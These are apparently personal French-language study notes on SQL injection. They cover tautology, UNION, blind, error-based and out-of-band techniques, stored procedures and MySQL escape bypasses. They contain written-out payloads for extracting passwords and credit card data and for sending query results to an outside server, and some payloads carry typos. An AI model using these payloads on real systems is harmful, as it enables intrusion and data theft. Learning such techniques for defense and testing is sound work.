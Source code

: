 # SQL Injection

## Standard Exploitation

Ecrire `‘or ‘1’ = ‘1`

```sql
# Transoform this request : 
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’

# In that : 
SELECT * FROM Users WHERE Username=’...’ OR ‘1’ = ‘1’ AND Password=’1’ OR ‘1’ = ‘1’
```

* Penser à utiliser `LIMIT` si besoin
* On peut aussi utiliser des commentaires au lieu de reformer la string `or 1=1 --` ou `or 1=1#`
* Stacker des requêtes en terminant la 1ère avec un `;` \(impossible si la requête est dans une fonction l'a préparant, et non-géré par certains systèmes de db\) : `http://www.example.com/product.php?id=10; INSERT INTO users (…)` 

## Union Exploitation

Étendre une requête SELECT avec un `UNION`

```sql
# Tansform this request :
SELECT Name, Phone, Address FROM Users WHERE Id=$id

# In that :
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* `ALL` est utilisé pour contrecarrer `DISTINCT`
* On rajoute `1, 1` car il faut le même nombre de colonnes que le `SELECT` de base. Pour déterminer le nombre adéquat, on peut faire un `http://www.example.com/product.php?id=10 ORDER BY 10--` qui retournera soit une erreur, soit quelque chose s’il y a effectivement 10 colonnes.
* En occurrence c’est des int \(donc `1, 1`\), mais il faut que ces colonnes match aussi le types. Pour ça, on peut tester en mettant d’abord null, puis en changeant le genre de données et en vérifiant l’erreur.
* Si seul le premier résultat est montré \(et donc celui de la requête véridique\), on peut fournir un id invalide, comme ça c’est le résultat de notre union qui sera remonté.

## Blind Exploitation \(Oracle\)

Quand le site ne nous renvoi pas directement le résultat de la query, mais qu'il réagit différemment en fonction de si celle-ci a donné un résultat ou non, on peut l'utiliser comme Oracle.

Cela permet par exemple de deviner lettre par lettre un mot de passe. Pennons un site ayant 2 messages d'erreurs différents : "Unknown username" et "Invalid password" ayant cette requête pour le champ des usernames :

```sql
SELECT password FROM Admins WHERE username='$username'
```

Avec ce payload : `'OR password LIKE '%x' --` on peut reconstruire caractère par caractère le mdp. Il n'y a pas d'utilisateur vide, donc si on reçoit un "Unknown username", on sait que le mdp qu'on a proposé n'existe pas.

**Remarque** : C'est bien sûr un exemple très spécifique, car l'attaque sera différente à chaque fois. Mais l'idée générale reste la même, si le site réagit différemment à une réponse binaire, on peut récupérer de l'info en la testant pas à pas.

**What to look for** :

* Difference in wording
* Difference in response status code
* Time-based difference

## Error Based Exploitation

Forcer des messages d’erreur donnant des informations. Par exemple, pour cette requête :

```sql
SELECT * FROM products WHERE id_product=$id_product
```

On peut lui demander de retourner un hostname en lui fournissant un user database name \(en oracle\) :

`http://www.example.com/product.php?id=10||UTL_INADDR. GET_HOST_NAME( (SELECT user FROM DUAL) )--`

Ce qui nous donnera cette erreur : `ORA-292257: host SCOTT unknown` révélant ainsi le user.

Cette technique diffère évidemment pour chaque database management system.

## Out of band exploitation

Cette technique consiste à utiliser des fonctions du DBMS \(Database management system\) pour envoyer les résultats à un serveur/autre, cela varie évidemment d’un DBMS à l’autre.

En oracle on pourrait par exemple faire ça :

`http://www.example.com/product.php?id=10||UTL_HTTP. request(‘testerserver.com:80’||(SELET user FROM DUAL)--`

Ce qui fera une requête GET vers testserver avec les résultats de la query. \(On peut setup le server avec netcat\).

## Stored Procedure Injection

Apparemment il existe ce genre de syntaxe :

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

Que l’on pourrait abuser avec ce genre d’input :`1 from users; update users set password = ‘password’; select *`

Mais je connais pas cette syntaxe donc je comprends pas trop.

## Insider Info

If you have an injection in a place where doing an "or 1=1" isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command.

## MySQL Server Specificity

Disclaimer : y’a la même pour PL/SQL Server, Microsoft SQL Server, PostGre SQL, Miscrosoft Access et NoSQL mais vu que je les connais pas et que ça m’intéresse pas dans l’immédiat, je l’ai pas détaillé.

Fonctionnalités permettant des injections par version \(depuis y’a probablement eu de nouvelles versions\)

* From Version 4.0: UNION 
* From Version 4.1: Subqueries 
* From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION\_SCHEMA 
* From Version 5.0.2: Triggers

### Single Quote Escape

MySQL permet d’escape les ', ce qui peut annuler certaines attaques quand ce n’est pas possible de contourner l’utilisation des '.

Mais dans certains cas on peut le contourner ainsi :

`password LIKE 'A%'` -&gt; `password LIKE 0x4125` -&gt; `password LIKE CHAR(65,37)`

If the db use the GBK charset \(simplified chinese\) and not the application, using `\xBF'` \(URL-encoded as `%bf%27`\) will prevent `addslashes` \(php function\) from correctly escaping the quote. \(Explained [here](http://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string)\)

### Lecture / Ecriture

* On peut écrire dans une fichier avec `into outfile 'path'` \(on ne peut pas contourner les ' ' donc s’ils sont escape, ça ne marche pas\).
* On peut lire avec `load_file(‘name’)`

### Autre

* On ne peut pas accumuler les requêtes \(donc utiliser le `;` pour en commencer une nouvelle\).
* Y’a 2 genres d’utilisateur `USER()` et `CURRENT_USER()` mais je suis pas sure des subtilités.
* Comments : `--` \(The space is important\) ou \`\#

### Fonctions utiles

* `LENGTH()`
* `SUBSTRING()`
* `BENCHMARK()`
* `SLEEP()`

